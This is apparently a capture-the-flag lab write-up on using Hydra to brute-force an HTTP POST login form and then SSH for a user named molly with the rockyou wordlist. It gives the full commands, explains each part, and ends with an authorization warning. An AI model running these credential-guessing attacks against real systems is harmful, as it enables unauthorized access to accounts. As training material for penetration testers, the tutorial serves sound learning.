 # Hydra Basics

## Overview

This guide covers basic Hydra usage for brute-forcing login credentials on HTTP forms and SSH services.

---

## Step 1: Identify the Target

- Navigate to the target IP address.
- Determine what service (e.g., web form, SSH) the credentials are associated with.
- In this case, the target is an **HTTP form**.

---

## Step 2: Trigger an Error Message

- Attempt to log in using incorrect credentials.
- Take note of the **error message** that appears—this will help Hydra recognize failed login attempts.

---

## Step 3: Brute-Force HTTP POST Login with Hydra

Use the following Hydra command for brute-forcing an HTTP POST form:

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt target_ip http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect."
```

### Command Breakdown:

- `-l molly` : Single username to use (`molly`)
- `-P /usr/share/wordlists/rockyou.txt` : Path to the password dictionary
- `target_ip` : Target IP address or hostname
- `http-post-form` : Specifies HTTP POST form attack method
- `/login` : Path to the login form
- `username=^USER^` : Placeholder for username
- `password=^PASS^` : Placeholder for password
- `F=Your username or password is incorrect.` : Text of the failure message

> **Note:** Adjust the form path and failure message based on how the web application behaves.

---

## Step 4: Submit the Found Credentials

- After Hydra discovers the correct password, **manually log in** through the HTTP form using the recovered credentials.
- Retrieve the **flag** or any other objective required.

---

## Step 5: Brute-Force SSH Credentials with Hydra

To target an SSH service, use the following Hydra command:

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt target_ip ssh
```

### Command Breakdown:

- `-l molly` : Single username (`molly`)
- `-P /usr/share/wordlists/rockyou.txt` : Path to the password dictionary
- `target_ip` : Target IP address or hostname
- `ssh` : Specifies the SSH service

---

## Step 6: Access via SSH

- Once Hydra finds Molly’s SSH password, sign in to the target system using:

```bash
ssh molly@target_ip
```

- Retrieve the **second flag** from the SSH session.

---

> ⚠️ **Warning:**  
Always ensure you have **explicit authorization** before conducting any penetration testing activities. Unauthorized use of these techniques is **illegal** and unethical.

